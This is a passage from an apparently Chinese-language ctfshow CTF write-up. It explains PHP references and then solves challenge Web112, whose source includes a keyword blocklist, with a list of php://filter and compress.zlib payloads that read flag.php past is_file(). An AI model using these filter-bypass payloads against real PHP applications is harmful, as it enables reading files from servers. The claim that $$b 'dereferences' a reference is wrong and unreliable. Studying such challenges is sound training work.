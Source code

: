   在这个例子中，`$b` 是 `$a` 的引用，所以对 `$b` 的修改也会影响到 `$a`。

- **解引用**：在变量名前面使用 `$` 和 `{}` 可以解引用一个变量，即获取变量的值而不是变量本身。

  ```php
  $a = "value";
  $b = &$a;
  $c = $$b; // $c 现在是 "value"
  ```

  在这个例子中，`$$b` 解引用了 `$b`，获取了 `$b` 引用的值，即 `$a` 的值。

所以不管是引用还是不加引用其实都不影响这里题目获取$GLOBALS，不加引用相当于$ctfshow复制了$GOBLE的值而不是获取$GLOBALS本身

## Web112：php://filter

题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-30 23:47:49

*/

highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

if(! is_file($file))决定file不能是文件，所以只能使用伪协议读文件，过滤了一些常用编码和伪协议，换其他伪协议或者编码读取

### 伪协议读取文件绕过is_file()

```php
php://filter/resource=flag.php
php://filter/read=convert.base64-encoder/resource=flag.php
php://filter/convert.base64-encode/resource=flag.php
php://filter/convert.quoted-printable-encode/resource=flag.php
php://filter/read=string.rot13/resource=flag.php
php://filter/convert.string.strip_tags/resource=flag.php
// 多个过滤器可以使用管道符连接
php://filter/read=string.rot13|convert.base64-encode/resource=flag.php
// 使用convert.iconv.*编码转换绕过
php://filter/convert.iconv.UCS-4LE.UCS-4BE/resource=flag.php
php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
// zlib://伪协议读取文件
compress.zlib://flag.php
// 但是其他两个压缩伪协议读取不了
```
